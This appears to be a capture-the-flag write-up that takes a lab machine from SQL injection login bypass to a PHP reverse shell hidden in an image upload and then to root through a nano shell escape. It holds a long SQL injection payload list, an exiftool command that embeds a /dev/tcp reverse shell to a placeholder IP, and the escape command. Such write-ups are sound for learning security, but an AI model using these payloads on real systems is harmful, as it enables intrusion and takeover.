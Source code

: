 ```yaml
---
sticker: emoji//1f6e4-fe0f
---
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241007144603.png)
# Enumeration

```ad-info
**OPEN PORTS**:
![](CYBERSECURITY/IMAGES/Pasted%20image%2020241007144658.png)
**FUZZING FOR PORT 80**:
![](CYBERSECURITY/IMAGES/Pasted%20image%2020241007150635.png)

```

The moment I went to `/gallery`, I realized it was a login page, I tried some XSS and when I sent the request, this was the output:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241007150803.png)
Seems like this login page is vulnerable to [[SQL INJECTION (SQLI)|SQLI]]
So, let's try to exploit it:

For this, I am using burp's intruder with the following payload list:

```ad-summary
'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --
'''''''''''''UNION SELECT '2
%00
/*…*/ 
+		
||		
%		
@variable	
@@variable	
AND 1
AND 0
AND true
AND false
1-false
1-true
1*56
-2
1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+
1' ORDER BY 1,2--+
1' ORDER BY 1,2,3--+
1' GROUP BY 1,2,--+
1' GROUP BY 1,2,3--+
' GROUP BY columnnames having 1=1 --
-1' UNION SELECT 1,2,3--+
' UNION SELECT sum(columnname ) from tablename --
-1 UNION SELECT 1 INTO @,@
-1 UNION SELECT 1 INTO @,@,@
1 AND (SELECT * FROM Users) = 1	
' AND MID(VERSION(),1,1) = '5';
' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --
,(select * from (select(sleep(10)))a)
%2c(select%20*%20from%20(select(sleep(10)))a)
';WAITFOR DELAY '0:0:30'--
```

Also, as seen in the request, it must be URL encoded, so, I also put this in the payload processing:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241007152753.png)

Let's launch the attack:
![](CYBERSECURITY/IMAGES/Pasted%20image%2020241007152809.png)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241007152818.png)
Seems like the attack worked for that payload, if we decode it, it is this payload:

`' OR 1 -- -`

And we got in as admin:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241007153027.png)

If we look around, we find an image upload section:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241007153644.png)

We can refer to our [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/FILE INCLUSION VULNERABILITIES/FILE UPLOAD|FILE UPLOAD]] note, when we try to upload a file, we can only upload images, `.jpg, .png` so, let's use `exiftool` to embed a reverse shell between an image:

```ad-note
```php-template
exiftool -Comment="<?php echo shell_exec('/bin/bash -c \'bash -i >& /dev/tcp/YOUR_IP_ADDRESS/YOUR_PORT 0>&1\''); ?>" cat.jpg -o shell.php
```

As we can see, file is an jpeg now:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241007160746.png)

Let's try to upload it now:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241007161320.png)
![](CYBERSECURITY/IMAGES/Pasted%20image%2020241007161325.png)
![](CYBERSECURITY/IMAGES/Pasted%20image%2020241007161334.png)
And we got a shell!

Let's proceed with PRIVILEGE ESCALATION:

First, let's spawn a [[STABLE SHELL|stable shell]], once we've done this, it's time to begin with our privilege escalation:

For the privilege escalation, I used [linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS), when I looked at linpeas output, I found this:
![](CYBERSECURITY/IMAGES/Pasted%20image%2020241007163005.png)
seems like the password for user mike, let's su to mike:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241007163600.png)
Now we are in as mike, let's look at mike's privileges:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241007163724.png)
We found a rootkit.sh script, let's look at it:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241007163807.png)
As shown in the read function of the script, it uses nano, if we go to gtfobins, this is shown:
![](CYBERSECURITY/IMAGES/Pasted%20image%2020241007164109.png)

If we execute the script as the root user, this happens:
![](CYBERSECURITY/IMAGES/Pasted%20image%2020241007165053.png)

Let's enter the read option:
![](CYBERSECURITY/IMAGES/Pasted%20image%2020241007164217.png)
Next, enter `ctrl+r` and `ctrl+x`, then the following command:

`reset; sh 1>&0 2>&0`

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241007165137.png)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241007165154.png)

And just like that, we got root access!

